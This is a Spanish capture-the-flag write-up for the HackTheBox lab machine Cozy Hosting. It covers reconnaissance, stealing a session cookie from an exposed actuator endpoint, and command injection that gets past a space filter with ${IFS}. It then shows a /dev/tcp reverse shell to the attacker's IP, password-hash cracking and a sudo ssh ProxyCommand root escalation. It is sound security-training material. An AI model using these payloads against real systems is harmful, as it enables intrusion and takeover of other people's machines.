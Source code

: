 ```yaml
---
title: 'Cozy Hosting'
description: 'WriteUp de la máquina Cozy Hosting'
pubDate: 'Sep 09 2023'
heroImage: '/htb/cozy_hosting/placeholder.png'
private: false
category: 'writeups'
tags: ['htb']
---
```


La máquina Cozy Hosting, fue una máquina de temporada de HackTheBox de dificultad fácil declarada por la plataforma.

## Fase de reconocimiento
### Escaneo de la máquina
Lo que siempre se debe hacer al inicio es realizar una traza TCP por ping para detectar si la máquina está activa y ver ante que sistema operativo nos enfrentamos mediante el TTL, el cual al ser de 63 la identificamos como una máquina Linux.

![Captura ping](https://i.imgur.com/9KDP4Ba.png)

Confirmando que ya poseemos conexión con la máquina, procedemos a realizar un escaneo con nmap, primero comenzamos con por el protocolo TCP y luego, en el caso de no encontrar nada, usamos UDP.

Comenzamos escanenando todo el rango de puertos y le agregamos los siguientes parámetros para un escáneo rápido:

```bash
-p- # Para barcar los 65535 puertos
--open # Solo obtener los puertos con estado open
-sS # Realizar escaneo TCP SYN SCAN
--min-rate 5000 # Envío mínimo de 5000 paquetes por segundos
-v # Verbose
-n # Evitar resolución DNS
-Pn # Evitar host discovery
-oG # Exporte en formato greppeable 
# para luego usar extractPorts
```

###### [!] Existen casos en los que usar 5000 paquetes es demasiado, en esos casos reducir a la mitad.
###### [!] ExtractPorts es un script creado por s4vitar para la rápida extracción de puertos de una captura de nmap [link](https://gist.github.com/Nileath/8f3e8c135963636cda3d2810e9a3824f)


![Captura nmap](https://i.imgur.com/u38NVLO.png)

Con esto ya sabemos que tiene un servicio SSH corriendo (puerto 22) y un servidor web (puerto 80), de todas formas siempre es recomendable obtener más información de estos servicios, para eso usamos los scripts básicos de reconocimiento y versionado de nmap
```bash
-sC # Reconocimiento
-sV # Versionado

-sCV # Ambos
```

![Captura nmap](https://i.imgur.com/nQYcNoV.png)

Al mismo tiempo, para agilizar, podemos ir escaneando la web con la herramienta `whatweb`, la cual nos entrega información sobre el sitio y también, en este caso, que se está generando virtual hosting y se tiene una redirección a `cozyhosting.htb`, por lo cual debemos agregarlo en el archivo `/etc/hosts` del sistema:

![Captura whatweb](https://i.imgur.com/eCcePfM.png)

El escaneo con el host:
![Captura whatweb con el hosting correcto](https://i.imgur.com/AcCS60V.png)

También podemos escanear la web con `wappalizer`, que es una extensión tanto [firefox](https://addons.mozilla.org/es/firefox/addon/wappalyzer/) como para [chrome](https://chrome.google.com/webstore/detail/wappalyzer-technology-pro/gppongmhjkpfnbhagpmjfkannfbllamg)

![Captura wappalizer](https://i.imgur.com/9Dnk5Cf.png)

Como podemos ver, nos encontramos ante un sistema Ubuntu, con un servidor nginx versión 1.18.0 y también vemos un email `info@cozyhosting.htb`. Toda esta información debemos recopilarla ya que nos puede servir.

En un vistazo rápido por la web, podemos ver un llamativo botón de login en el header, dentro del home no encontramos nada más que nos pueda ser útil.

### Accediento al sitio
Ya en el panel de login, podemos probar las credenciales genéricas y ver si nos responde algún mensaje o error que nos de más información, pero probando lo básico nos damos cuenta que necesitaremos alguna credencial.

![Captura panel de login](https://i.imgur.com/IENctZd.png)

Luego de probar y ver las respuestas, nos percatamos que se está almacenando, en el apartado de Storages/Cookies, una cookie de sesión, lo cual nos puede dar un indicio de como vulnerar este panel
![Captura panel storage](https://i.imgur.com/YbqRqWn.png)

De todas formas, siempre es recomendable realizar un Fuzzing a la web, para ver si podemos encontrar alguna ruta que nos pueda entregar más información. Comenzamos con wfuzz, usando hilos y con el diccionario de [SecList](https://github.com/danielmiessler/SecLists), con el cual usaremos los que se encuentran en `Discovery/Web-Content`, yo suelo usar los siguentes:

- quickhits.txt
- directory-list-2.3-medium.txt
- directory-list-2.3-big.txt

![Captura wfuzz](https://i.imgur.com/txrKAvr.png)

Luego de usar el primer diccionario, podemos ver una ruta llamada `actuator` en el cual vemos varias subrutas que nos pueden interesar

![Captura ruta /actuator](https://i.imgur.com/Yj4cyfF.png)

La mayoria de rutas tienen información, pero recordando lo que habiamos visto anteriormente sobre la cookie de sesión, la ruta `/session` nos entrega información valiosa, la cookie de un usuario
![Captura cookie](https://i.imgur.com/uAFZpWk.png)

Ya con esta cookie, la reemplazamos por la que tenemos en el navegador y ya podemos acceder al panel de administración
![Captura panel de administración](/htb/cozy_hosting/admin_panel.png)

## Fase de explotación
### Accediendo a un usuario
Una vez dentro del panel de administración, vemos al pie de la página un formulario de una conexión SSH, el cual al intentar enviar datos, vemos que tiene validaciones
![Captura formulario web](https://i.imgur.com/zkk7hSZ.png)

Si lo interceptamos con BurpSuite e intentamos enviar nuestros datos, vemos que responde un 302 e indica un timeout luego de seguir la redirección, pero si intentamos enviar datos no esperados, podemos ver que al no ingresar un host, no procesa la solicitud, pero si evitamos enviar un username, podemos ver un mensaje interesante:
![Captura burpsuite sin username](https://i.imgur.com/fgq4ji8.png)
Pero al intentar ejecutar algun comando, vemos que tiene una pequeña validación que evita los espacios en blanco, por lo cual nos complica un poco el cómo ejecutar un comando para acceder a la máquina.
Pero aún disponemos de la variable de [IFS de linux](https://bash.cyberciti.biz/guide/$IFS), la cual nos sirve para agregar los espacios que requerira nuestro payload, por lo cual usaremos lo siguiente

```bash
# Lo que buscamos
;echo "<BASE64_PAYLOAD>" | base64 -d | bash;

# Ya transformado
;echo${IFS}"<BASE64_PAYLOAD>"|base64${IFS}-d|bash;
```

Probando un curl hacia nuestra máquina, vemos que nuestro payload funciona.
![Captura curl](https://i.imgur.com/z3awMFF.png)

Por lo cual ya podremos ejecutar una reverse shell para acceder a la máquina víctima
```bash
# Payload a usar en base64
echo -n "/bin/bash -l>/dev/tcp/10.10.14.114/443 0<&1 2>&1" | base64
```
###### [!] En el caso de que tu reverse shell generada con base64 tenga un símbolo de +, debes modificarlo para que no esté o el validador te indicará que no se permiten espacios
###### [!] En mi caso eliminé los espacios del -l y el > y ya no mostró ese símbol

Una vez dentro de la máquina, vemos que estamos con el usario `app` y debemos llegar al usuario `josh`, el cual podemos ver listando el directorio `/home`

Justo dentro del directorio en donde obtenemos el acceso, `/app`, podemos ver un archivo llamado `cloudhosting-0.0.1.jar` el cual podemos investigar para buscar información, alguna credencial o algun indicio para escalar privilegios.

![Captura directio /app](https://i.imgur.com/7Zz9fTO.png)

Por lo cual levantamos un pequeño servidor http con python en la máquina víctima, para poder descargar el fichero desde el navegador de forma más cómoda
```bash
python3 -m http.server 4000
```
![Captura server http con python](https://i.imgur.com/NPhgOQo.png)

Ya obtenido el archivo jar, extraemos su contenido con el comando jar
```bash
jar -xf cloudhosting-0.0.1.jar
```

Y revisando sus ficheros, vemos el siguiente fichero `BOOT-INF/classes/application.properties`, en el cual vemos las credenciales de PostgreSql
![Captura archivo application.properties](https://i.imgur.com/fRyLstJ.png)

Si nos conectamos al postgre y le indicamos la contraseña, vemos que podemos acceder
```bash
psql -h localhost -U postgres -p 5432
```

Listando las bases de datos, podemos ver una llamada cozyhosting, y dentro de ella una tabla de usuarios, el cual al listar podemos ver 2 usuarios y sus credenciales encriptadas, por lo cual podriamos probar con john y tratar de desencriptarlas por fuerza bruta.
![Captura tabla usuarios](https://i.imgur.com/k2zm9RD.png)

Preparamos un archivo, en mi caso lo llamé `hash.txt`, y se vería de la siguiente manera:
![Captura fichero hash.txt](https://i.imgur.com/KiqE4P1.png)

Vemos que una puede romperla sin problemas y es la del usuario admin
![Captura john](https://i.imgur.com/NeztBt5.png)

Si la probamos con el usuario josh, podremos ver que nos deja acceder y podremos ver la flag de usuario en su home
![Captura home Josh](https://i.imgur.com/8B1nkup.png)

### Obteniendo Root
La escalada a root de está máquina es bastante sencilla, ya que si usamos el comando `sudo -l` podremos ver que `josh` puede ejecutar como root el comando ssh y si buscamos en [GTFObins](https://gtfobins.github.io/gtfobins/ssh/) podremos ver el siguiente comando:
```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
El cual al ejecutarlo, ya podremos tener acceso a root y por lo tanto a la flag.
![Captura root](https://i.imgur.com/Gi0xj5A.png)